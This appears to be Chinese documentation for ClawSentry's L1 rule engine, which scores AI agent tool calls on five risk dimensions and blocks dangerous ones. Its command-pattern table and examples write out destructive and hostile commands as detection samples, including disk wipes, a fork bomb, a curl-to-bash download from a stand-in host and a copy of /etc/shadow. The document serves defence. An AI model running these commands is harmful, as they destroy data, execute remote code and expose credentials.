


# L1 规则引擎

## 概述 {#overview}

L1 是 ClawSentry 三层递进决策模型的**第一层**，也是**唯一始终在线**的决策层。每一个进入 Gateway 的 `CanonicalEvent` 都会经过 L1 评估，无一例外。

L1 完全基于确定性规则，不调用任何 LLM 接口，**零外部依赖**。典型决策延迟 **< 1ms**，确保 Agent 运行时的同步阻塞窗口尽可能短。

!!! info "设计哲学"
    L1 的目标不是"准确地理解意图"，而是**快速过滤已知危险模式**。对于需要语义理解的灰色地带操作，L1 会将其升级到 L2/L3 处理。

**核心特性：**

| 特性 | 描述 |
|------|------|
| 延迟 | < 1ms (纯 CPU 正则匹配) |
| 外部依赖 | 无 (不调用 LLM、不访问网络) |
| 始终在线 | 处理 100% 的事件 |
| 降级行为 | 不适用 (L1 本身就是最终降级兜底) |
| 实现类 | `L1PolicyEngine` |
| 输出 | `RiskSnapshot` + `CanonicalDecision` |



---

## D1-D5 五维评分体系 {#d1-d5}

ClawSentry 将每个事件分解为五个独立的风险维度进行评分，每个维度产生一个整数分值。维度之间相互独立、互不影响。

### D1 — 工具类型危险度 (Tool Type Danger) {#d1}

**取值范围：0-3**

D1 根据事件中 `tool_name` 字段判断工具的固有危险程度。不同类型的工具被预分类到四个危险等级。

| 分值 | 等级 | 工具列表 | 含义 |
|:----:|------|----------|------|
| **0** | 只读 | `read_file`, `list_dir`, `search`, `grep`, `glob`, `cat`, `head`, `tail` 等 | 不会产生任何副作用 |
| **1** | 有限写入 | `write_file`, `edit_file`, `create_file`, `edit`, `write` | 在用户工作空间内写入文件 |
| **2** | 系统交互 | `http_request`, `install_package`, `fetch`, `web_fetch` | 与外部系统交互，有潜在副作用 |
| **3** | 高危 | `exec`, `sudo`, `chmod`, `chown`, `mount`, `kill`, `pkill` | 直接操作系统级资源 |

!!! warning "特殊处理：bash/shell 工具"
    当 `tool_name` 为 `bash`、`shell`、`terminal` 或 `command` 时，D1 不直接分类，而是进一步检查命令内容：

    - 若命令匹配高危模式 (D3 patterns) → D1=3
    - 若命令涉及系统路径 (`/etc/`, `/usr/`, `/var/` 等) → D1=3
    - 其他情况 → D1=2

```python
# 内部分类集合（简化展示）
_D1_READONLY_TOOLS = {"read_file", "list_dir", "search", "grep", "glob", ...}
_D1_LIMITED_WRITE  = {"write_file", "edit_file", "create_file", ...}
_D1_SYSTEM_TOOLS   = {"http_request", "install_package", "fetch", ...}
_D1_HIGH_DANGER    = {"exec", "sudo", "chmod", "chown", "mount", ...}
```

!!! note "缺失 tool_name 的保守回退"
    当事件缺少 `tool_name` 字段时，D1 取保守默认值 **2**，并在 `missing_dimensions` 中记录 `"d1"`。

---

### D2 — 目标路径敏感度 (Target Path Sensitivity) {#d2}

**取值范围：0-3**

D2 分析事件涉及的文件路径，判断目标资源的敏感程度。路径从 `payload` 中的 `path`、`file_path`、`file`、`target`、`destination`、`source` 字段提取，也会从 `command` 字段中启发式解析。

| 分值 | 等级 | 匹配模式 | 示例 |
|:----:|------|----------|------|
| **0** | 安全 | 用户工作空间内的常规文件 | `./src/main.py`, `README.md` |
| **1** | 配置 | `.config.`、`.env`、`.rc`、`Makefile`、`Dockerfile` | `.env.local`, `Dockerfile` |
| **2** | 凭证 | `.ssh/`、`.gnupg/`、`credentials`、`.pem`、`.key`、`.p12` | `~/.ssh/id_rsa`, `cert.pem` |
| **3** | 系统关键 | `/etc/`、`/usr/`、`/var/`、`/sys/`、`/proc/`、`/boot/` | `/etc/shadow`, `/proc/1/maps` |

```python
# 路径敏感度正则（简化）
_D2_SYSTEM_CRITICAL   = re.compile(r"^(/etc/|/usr/|/var/|/sys/|/proc/|/boot/)")
_D2_CREDENTIAL        = re.compile(r"(\.ssh/|\.gnupg/|credentials|\.pem$|\.key$)")
_D2_CONFIG            = re.compile(r"(\.config\.|\.env|\.rc$|Makefile$|Dockerfile$)")
```

!!! tip "多路径取最大值"
    当一个事件涉及多个路径时（例如 `cp /etc/shadow /tmp/leak`），D2 取所有路径分值的**最大值**。

---

### D3 — 命令模式危险度 (Command Pattern Danger) {#d3}

**取值范围：0-3**

D3 只对 bash/shell/exec 类工具生效，分析 `payload.command` 字段中的具体命令内容。对于非 shell 工具，D3 固定为 **0**。

=== "分值 0 — 安全命令"

    已知无副作用的只读命令：

    ```
    ls, cat, echo, pwd, whoami, date, env, printenv,
    hostname, uname, id, wc, sort, uniq, diff,
    head, tail, less, more, file, which, type
    ```

=== "分值 1 — 常规写入"

    有限范围的写入操作：

    ```
    cp, mv, mkdir, touch, git add, git commit, ln, rename
    ```

=== "分值 2 — 潜在破坏"

    可能产生不可逆影响的操作：

    ```
    rm, git push, git reset, npm install, pip install,
    yarn add, apt install, yum install
    ```

=== "分值 3 — 高危命令模式"

    通过正则匹配的已知高危模式，**命中即触发短路规则**：

    | 模式 | 说明 | 示例 |
    |------|------|------|
    | `rm -rf` | 递归强制删除 | `rm -rf /`, `rm -rf ~/*` |
    | `dd` | 磁盘直写 | `dd if=/dev/zero of=/dev/sda` |
    | `mkfs` | 格式化文件系统 | `mkfs.ext4 /dev/sda1` |
    | `:(){ :\|:& };:` | Fork 炸弹 | 耗尽系统资源 |
    | `curl \| sh` | 下载并执行 | `curl https://evil.com/x \| bash` |
    | `wget \| bash` | 下载并执行 | `wget -qO- url \| sh` |
    | `> /dev/` | 设备覆写 | `echo x > /dev/sda` |
    | `git push --force` | 强制推送 | 可能覆盖远程历史 |
    | `chmod 777` | 全开权限 | 安全配置破坏 |
    | `sudo` | 提权执行 | 突破最小权限 |

---

### D4 — 会话风险累积 (Context Risk Accumulation) {#d4}

**取值范围：0-2**

D4 不基于当前事件本身，而是基于**同一会话中历史高危事件的累积次数**。这是 ClawSentry 的"记忆"机制 —— 即使单个操作看似无害，如果一个会话内已多次触发高风险评估，D4 会将该会话的后续操作提升至更高警戒级别。

| 分值 | 条件 | 含义 |
|:----:|------|------|
| **0** | 高危事件数 < 2 | 正常会话 |
| **1** | 2 <= 高危事件数 < 5 | 会话有异常倾向 |
| **2** | 高危事件数 >= 5 | 会话高度可疑 |

D4 由 `SessionRiskTracker` 维护，每当一个事件的最终风险等级为 HIGH 或 CRITICAL 时，该会话的高危计数加一。

```python
class SessionRiskTracker:
    """追踪每个会话的高危事件累积。"""
    DEFAULT_MAX_SESSIONS = 10_000   # LRU 淘汰上限

    def get_d4(self, session_id: str) -> int:
        count = self._high_risk_counts.get(session_id, 0)
        if count >= 5: return 2
        if count >= 2: return 1
        return 0

    def record_high_risk_event(self, session_id: str) -> None:
        self._high_risk_counts[session_id] = (
            self._high_risk_counts.get(session_id, 0) + 1
        )
```

!!! abstract "与 SessionEnforcementPolicy 的关系"
    D4 记录会话级风险趋势供评分使用，而 `SessionEnforcementPolicy` 是更激进的策略层 —— 当累积高危次数超过阈值时，直接将整个会话锁定为强制 DEFER/BLOCK/L3 模式。两者互相补充但独立运作。

---

### D5 — Agent 信任等级 (Agent Trust Level) {#d5}

**取值范围：0-2**

D5 基于 `DecisionContext` 中的 `agent_trust_level` 字段，评估发出请求的 Agent 是否被授予了适当的信任级别。

| 分值 | 信任等级 | 含义 |
|:----:|----------|------|
| **0** | `PRIVILEGED` / `ELEVATED` | 已获显式提权，降低风险权重 |
| **1** | `STANDARD` | 默认信任级别 |
| **2** | `UNTRUSTED` | 未认证或低信任 Agent |

!!! note "缺失上下文的保守回退"
    当 `DecisionContext` 为空或 `agent_trust_level` 未设置时，D5 取保守默认值 **2**（视为不信任），并在 `missing_dimensions` 中记录 `"d5"`。

---

## 评分合成 {#scoring}

五个维度评分完成后，ClawSentry 按以下流程合成最终风险等级。

### 短路规则 (Short-Circuit Rules) {#short-circuit}

短路规则在合成评分**之前**检查，一旦命中即直接确定风险等级，跳过正常的评分-定级流程。短路规则的优先级高于一切。

| 规则 ID | 条件 | 直接定级 | 说明 |
|:-------:|------|:--------:|------|
| **SC-1** | D1=3 且 D2>=2 | `CRITICAL` | 高危工具 + 敏感路径 → 绝对禁止 |
| **SC-2** | D3=3 | `CRITICAL` | 高危命令模式 (如 `rm -rf /`) → 绝对禁止 |
| **SC-3** | D1=0 且 D2=0 且 D3=0 | `LOW` | 纯只读操作 → 安全放行 |

!!! example "短路示例"
    `sudo rm -rf /etc/shadow` 命中 SC-1（D1=3, D2=3）和 SC-2（D3=3），直接定级为 CRITICAL，无需计算合成分。

### 合成评分公式 {#composite-formula}

当没有短路规则命中时，按以下公式计算合成分：

$$
\text{composite\_score} = \max(D1, D2, D3) + D4 + D5
$$

**理论取值范围：0-7**（D1/D2/D3 最大为 3，D4 最大为 2，D5 最大为 2）。

### 评分→风险等级映射 {#score-to-level}

| 合成分范围 | 风险等级 |
|:----------:|:--------:|
| 0-1 | `LOW` |
| 2-3 | `MEDIUM` |
| 4 | `HIGH` |
| 5-7 | `CRITICAL` |

---

## 风险→判决映射 {#risk-to-verdict}

L1 将风险等级映射为 `CanonicalDecision`，判决结果取决于事件类型和风险等级的组合。

### 按事件类型分流



!!! abstract "事件类型与阻塞语义"
    - **非阻塞事件** (`post_action`, `post_response`, `error`, `session`)：始终 ALLOW。这些事件是已完成动作的通知，阻塞没有意义。
    - **pre_prompt**：始终 ALLOW (fail-open)。不阻止用户输入。
    - **pre_action**：唯一的阻塞控制点。根据风险等级决定放行或拦截。

### pre_action 的判决矩阵

| 风险等级 | 判决 | 语义 |
|:--------:|:----:|------|
| `LOW` | `ALLOW` | 安全操作，直接放行 |
| `MEDIUM` | `ALLOW` | 放行但记录审计日志，同时触发 L2 分析 |
| `HIGH` | `BLOCK` | 高风险操作，拦截并返回拒绝原因 |
| `CRITICAL` | `BLOCK` | 绝对禁止，无条件拦截 |

!!! tip "Gateway 层的 DEFER"
    上表是 L1 引擎本身的映射。在实际部署中，Gateway 层会根据 OpenClaw 集成配置将 HIGH 风险映射为 `DEFER`（交由运维人员审批），而非直接 BLOCK。这是 Gateway 对 L1 判决的策略覆盖，不是 L1 本身的行为。

---

## RiskSnapshot — 评估快照 {#risk-snapshot}

`RiskSnapshot` 是 L1 评估的完整输出，一旦生成即不可变 (immutable)。它在整个决策和重试生命周期中保持不变，是后续 L2/L3 分析的基准输入。

```python
class RiskSnapshot(BaseModel):
    risk_level: RiskLevel               # 最终风险等级
    composite_score: int                 # 合成分 (0-7)
    dimensions: RiskDimensions           # D1-D5 各维度分值
    short_circuit_rule: Optional[str]    # 命中的短路规则 (SC-1/SC-2/SC-3)
    missing_dimensions: list[str]        # 缺失维度列表 (如 ["d1", "d5"])
    classified_by: ClassifiedBy          # 分类层级 (L1/L2/manual)
    classified_at: str                   # UTC ISO8601 时间戳
    override: Optional[RiskOverride]     # L2/manual 覆盖信息
    l1_snapshot: Optional[RiskSnapshot]  # L2 升级时保留的 L1 原始快照
    l3_trace: Optional[dict]             # L3 推理轨迹 (不序列化到外部)
```

### RiskDimensions 字段

```python
class RiskDimensions(BaseModel):
    d1: int  # 0-3, 工具类型危险度
    d2: int  # 0-3, 目标路径敏感度
    d3: int  # 0-3, 命令模式危险度
    d4: int  # 0-2, 会话风险累积
    d5: int  # 0-2, Agent 信任等级
```

---

## 实际评估示例 {#examples}

以下示例展示不同命令在 D1-D5 各维度的评分过程和最终判决。

### 示例 1：安全的只读操作

```
Event: tool_name="read_file", payload={"path": "src/main.py"}
Agent: STANDARD trust
Session: 首次事件
```

| 维度 | 分值 | 原因 |
|:----:|:----:|------|
| D1 | 0 | `read_file` 属于只读工具集 |
| D2 | 0 | `src/main.py` 不匹配任何敏感路径模式 |
| D3 | 0 | 非 bash/shell 工具，固定为 0 |
| D4 | 0 | 会话内无高危历史 |
| D5 | 1 | STANDARD 信任等级 |

**短路检查：** 命中 SC-3 (D1=0, D2=0, D3=0) → 直接定级 `LOW`

**判决：** `ALLOW` — 安全放行

---

### 示例 2：中等风险的包安装

```
Event: tool_name="bash", payload={"command": "pip install requests"}
Agent: STANDARD trust
Session: 1 次高危历史
```

| 维度 | 分值 | 原因 |
|:----:|:----:|------|
| D1 | 2 | `bash` 工具，命令不含高危模式也不涉及系统路径 |
| D2 | 1 | 路径缺失，保守回退 |
| D3 | 2 | `pip install` 匹配潜在破坏模式 |
| D4 | 0 | 高危事件数 < 2 |
| D5 | 1 | STANDARD 信任等级 |

**短路检查：** 无命中
**合成分：** max(2, 1, 2) + 0 + 1 = **3** → `MEDIUM`

**判决：** `ALLOW` (审计记录)，触发 L2 分析

---

### 示例 3：高危系统操作

```
Event: tool_name="bash", payload={"command": "sudo chmod 777 /etc/passwd"}
Agent: UNTRUSTED
Session: 3 次高危历史
```

| 维度 | 分值 | 原因 |
|:----:|:----:|------|
| D1 | 3 | `bash` + 命令含 `sudo`/`chmod 777` 高危模式 |
| D2 | 3 | `/etc/passwd` 匹配系统关键路径 |
| D3 | 3 | `sudo` 和 `chmod 777` 均命中高危模式 |
| D4 | 1 | 高危事件数 = 3 (在 [2,5) 区间) |
| D5 | 2 | UNTRUSTED Agent |

**短路检查：** 命中 SC-1 (D1=3, D2>=2) 和 SC-2 (D3=3) → 直接定级 `CRITICAL`

**判决：** `BLOCK` — 绝对禁止，并记录详细原因

---

### 示例 4：Fork 炸弹

```
Event: tool_name="bash", payload={"command": ":(){ :|:& };:"}
Agent: STANDARD trust
Session: 无历史
```

| 维度 | 分值 | 原因 |
|:----:|:----:|------|
| D1 | 3 | `bash` + 命令匹配高危模式 (fork bomb) |
| D2 | 1 | 无路径信息，保守回退 |
| D3 | 3 | Fork bomb 正则 `:\(\)\s*\{` 命中 |
| D4 | 0 | 无历史 |
| D5 | 1 | STANDARD |

**短路检查：** 命中 SC-2 (D3=3) → 直接定级 `CRITICAL`

**判决：** `BLOCK`

---

## L1 → L2 升级条件 {#escalation}

L1 不仅产生自己的判决，还决定是否将事件升级到 L2 语义分析层。升级检查在 L1 评估完成后进行。

满足以下**任一条件**即触发 L2：

| 条件 | 说明 |
|------|------|
| 显式请求 L2 | `requested_tier == DecisionTier.L2` |
| 中等风险的 pre_action | `event_type == pre_action` 且 `risk_level == MEDIUM` |
| 关键领域关键词 | 事件文本匹配 `prod/production/credential/secret/token/password/key` |
| 手动升级标志 | `DecisionContext.session_risk_summary` 中含 `l2_escalate`/`force_l2` 标志 |

```python
def _should_run_l2(self, event, context, l1_snapshot, requested_tier) -> bool:
    if requested_tier == DecisionTier.L2:
        return True
    if event.event_type == EventType.PRE_ACTION and \
       l1_snapshot.risk_level == RiskLevel.MEDIUM:
        return True
    if self._is_key_domain_event(event):
        return True
    return has_manual_l2_escalation_flag(context)
```

!!! important "升级只增不减"
    当 L2 被触发后，L2 的分析结果**只能升级风险等级，不能降级**。如果 L1 判定 MEDIUM，L2 可以升级为 HIGH，但不能降为 LOW。这是 ClawSentry 的核心安全原则之一。

---

## Fallback 决策 {#fallback}

当 Gateway 不可达时（网络中断、服务未启动等），Adapter 使用本地 Fallback 策略生成决策，而非让事件悬挂或无限等待。

```python
def make_fallback_decision(event, risk_hints_contain_high_danger=False):
    ...
```

| 事件类型 | Fallback 判决 | 策略 |
|----------|:------------:|------|
| `pre_action` + 高危标记 | `BLOCK` | Fail-closed：宁可误拦 |
| `pre_action` + 非高危 | `DEFER` | 交由人工确认 (retry_after_ms=1000) |
| `pre_prompt` | `ALLOW` | Fail-open：不阻止用户输入 |
| 其他 (`post_*`, `error`, `session`) | `ALLOW` | Fail-open：观测类事件无需阻塞 |

!!! warning "高危 fail-closed，低危 fail-open"
    这是 AHP 协议的核心降级原则。当监督系统本身出现故障时，对高危操作保持拦截（宁可误报），对低危操作保持放行（避免瘫痪 Agent）。

---

## 配置 {#configuration}

L1 引擎本身**零配置即可运行**。以下环境变量影响与 L1 相关的行为：

| 环境变量 | 说明 | 默认值 |
|----------|------|:------:|
| `AHP_SESSION_ENFORCEMENT_ENABLED` | 启用会话级强制策略（在 L1 评估后检查） | `false` |
| `AHP_SESSION_ENFORCEMENT_THRESHOLD` | 会话内高危事件触发强制策略的阈值 | `3` |
| `AHP_SESSION_ENFORCEMENT_ACTION` | 强制策略动作 (`defer`/`block`/`l3_require`) | `defer` |
| `AHP_RATE_LIMIT_PER_MINUTE` | Gateway 速率限制（超限返回 ENGINE_UNAVAILABLE） | `300` |

!!! tip "调整评分阈值"
    当前版本的 D1-D5 评分阈值和短路规则是硬编码在源码中的，如需调整需修改以下文件中的常量定义。未来版本计划支持通过配置文件自定义评分规则。

---

## 代码位置 {#source-code}

| 模块 | 路径 | 职责 |
|------|------|------|
| L1 策略引擎 | `src/clawsentry/gateway/policy_engine.py` | 编排 L1 评估、L2 升级判断、判决生成 |
| 风险评分引擎 | `src/clawsentry/gateway/risk_snapshot.py` | D1-D5 评分函数、短路规则、合成评分 |
| 数据模型 | `src/clawsentry/gateway/models.py` | `RiskSnapshot`、`RiskDimensions`、`CanonicalDecision` 等 |
